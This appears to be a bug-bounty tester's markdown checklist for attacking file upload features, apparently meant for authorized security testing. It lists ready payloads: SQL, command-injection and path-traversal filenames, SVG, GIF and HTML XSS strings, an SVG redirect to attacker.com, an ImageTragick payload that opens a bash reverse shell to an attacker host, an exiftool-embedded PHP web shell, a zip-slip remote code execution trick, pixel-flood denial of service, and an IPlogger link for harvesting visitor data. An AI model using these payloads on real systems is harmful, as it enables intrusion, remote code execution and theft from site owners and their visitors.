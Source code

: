 - [x] Identify File Uploads Points
- [ ] Vulnerable Filename
	- [x] XSS
	- [x]  SSRF
            - Abusing the "Upload from URL", if this image is going to be saved in some public site, you could also indicate a URL from [IPlogger](https://iplogger.org/invisible/) and steal information of every visitor.
	- [x]  SQL Injection
            - Set filename `'sleep(10).jpg`.
            - Set filename `sleep(10)-- -.jpg`.
	- [ ] LDAP
	- [x]  Command Injection
            - Set filename `; sleep 10;`
   - [x]  Directory Traversal
            - Set filename `../../etc/passwd/logo.png`
            - Set filename `../../../logo.png` as it might changed the website logo.
            - Symlink `ln -s /etc/passwd ./test` upload it and check if you can see passwd.
	- [ ] JS
	- [ ] Xpath


- [ ] SVG upload [SVG Cheat](https://github.com/allanlw/svg-cheatsheet)
	- [x] Stored XSS
		- [x] https://github.com/pranav77/XSS-using-SVG-file
		- [x] By payload https://github.com/pranav77/XSS-using-SVG-file
		- [x] XSS
			- ```xml 
			 <svgxmlns="http://www.w3.org/2000/svg"onload="alert(document.domain)"/>```
			-  ```xml
            <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>```
	- [x] SSRF
	- [x] XXE
		- [ ] [[XXE from Blind SSRF]] (Should be ssrf P4)
	- [ ] HTML Injection
	 - [x]  Open Redirect
		 -  Upload using `.svg` file	

            ```xml
            
            <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
            <svg
            onload="window.location='https://attacker.com'"
            xmlns="http://www.w3.org/2000/svg">
            <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
            </svg>
            
            ```


- [ ] GIF upload
	- [x] [XSS](https://github.com/0xspade/XSS-Gif-Payload.git)
		- `GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;`
	- [ ] SSRF

- [x] ZIP upload
	- For using payloads do `touch /tmp/evil.txt`
	- Create paylaods https://github.com/ptoomey3/evilarc
	- [ ] [zip-slip attack ](https://snyk.io/blog/zip-slip-vulnerability-cheat-sheet/)
	- [ ] [Code review](https://res.cloudinary.com/snyk/image/upload/v1530192988/blog/zip-slip-cheat-sheet.pdf)
	- [ ] [Code review2](https://github.com/snyk/zip-slip-vulnerability)

- [ ] PDF/PPTX upload
	- [ ] SSRF
	- [ ] BLIND XXE
	- [x] XSS

- [x] SWF (Flash player) upload
	- [x] XSS


- [x] XML upload
	- [x] XXE

- [ ] AVI upload
	- [ ] LFI
	- [ ] SSRF

- [ ] HTML/JS upload 
	- [x] HTML Injection
	- [x] XSS
	- [ ] Open Redirection

- [x] PNG / JPEG upload
	- [x] Pixel Flood attack (lottapixel.png)
		- Create 2 users A and B
		- Start uploading with lottapixel with A.
		- Symentaniously Upload normal image from B.
		- Of gives 502 then vulnerable.


- [x] Makdown Support
	- [x] [XSS](https://github.com/cujanovic/Markdown-XSS-Payloads/blob/master/Markdown-XSS-Payloads.txt)

- [ ] Image Processing
	- [ ]  [ImageTragic](https://www.onsecurity.io/blog/file-upload-checklist/#image-tragick-cve-2016-3714)

            ```
            push graphic-context
            viewbox 0 0 640 480
            fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
            pop graphic-context
            ```

	- If use of [PHP GD library](https://www.onsecurity.io/blog/file-upload-checklist/#bypassing-the-php-gd-library)

- [ ] XSS
	- `"><img src=x onerror=alert(1)>.png`
	- `%22%3E%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E.png`
	- `"><img src=x onerror=alert(1)>`
	- [Tricks](https://enciphers.com/different-tricks-to-get-xss/)
	- [ ] XSS via MIME bypass image upload (See ex:4 of Tricks)
	- [ ] [[Exif metadata XSS]]
	- [ ] [HTML Injection XSS](https://drive.google.com/file/d/1xgNfsZ8-Roltnhgj_9zriTZvMI7Dckbb/view)


- [ ] [[CSV Injection]]

 - [ ] Misc
      - [ ]  Uploading `file.js` & `file.config` (web.config)
      - [x]  Pixel flood attack using image
      - [x]  DoS with a large values name: `1234...99.png`
      - [x]  Zip Slip
           - If a site accepts `.zip` file, upload `.php` and compress it into `.zip` and upload it. Now visit, `site.com/path?page=zip://path/file.zip%23rce.php`
      - [ ]  Image Shell
            - Exiftool is a great tool to view and manipulate exif-data. Then I will to rename the file `mv pic.jpg pic.php.jpg`

            ```php
            exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
            ```


- [ ] SSRF

- [ ] CSRF
- [x] Exif Image Data reverse shell
	- In `Author` metadata Lucideus Blog

- [ ] Metadata Leak



- [x] File Overwrite

- [ ] Server Side injection
- [ ] Open Redirection

- [ ] Bypasses
	- [ ] Content-type
	- [ ] n-extension
	- [ ] Client-side validation
	- [ ] Test for [null-byte injection](https://www.onsecurity.io/blog/file-upload-checklist/#null-byte-x00-injection).
		- [ ] [Magic bytes](https://www.onsecurity.io/blog/file-upload-checklist/#magic-byte-forgery)

- [ ] Check for [ffmpeg exploit](https://www.onsecurity.io/blog/file-upload-checklist/#ffmpeg-exploit-and-explanation)
- [ ] [.htaccess file upload](https://www.onsecurity.io/blog/file-upload-checklist/#uploading-a-htaccess-file)

- [ ] [[Unauthenticated File Upload Testing]] (DOS attack possible)
- [ ] [[Injecting into the request with Burp]]
- [ ] [[Test for Server Side Antivirus Scanning]]
- [x] [[Shell Upload]]
- [ ]  Is the server windows? Try adding a [trailing `.` to bypass extension blacklists](https://www.onsecurity.io/blog/file-upload-checklist/#trailing--in-windows), this dot will be removed automatically by the OS.
- [ ]  [[IIS server and Apache file upload whitelist bypass]]
- [ ]  [[IIS server and Apache file upload blacklist bypass]]
- [ ]   Can custom polyglots be developed to bypass specific filters?
- [ ]  Check for the acceptance of double extensions on uploaded files.